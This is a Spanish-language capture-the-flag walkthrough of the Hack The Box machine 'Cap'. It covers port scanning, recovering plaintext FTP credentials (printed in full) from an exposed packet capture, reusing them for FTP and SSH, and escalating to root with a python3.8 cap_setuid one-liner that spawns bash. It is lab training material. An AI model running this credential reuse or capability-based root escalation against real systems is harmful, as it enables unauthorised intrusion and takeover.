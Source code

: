 ## Cap 

## Escaneo de puertos
REalizamos un escaneo de todos los puertos para comprobar cuales estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vunerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:
![alt text](Imagenes/Cap.png)
```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos accder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 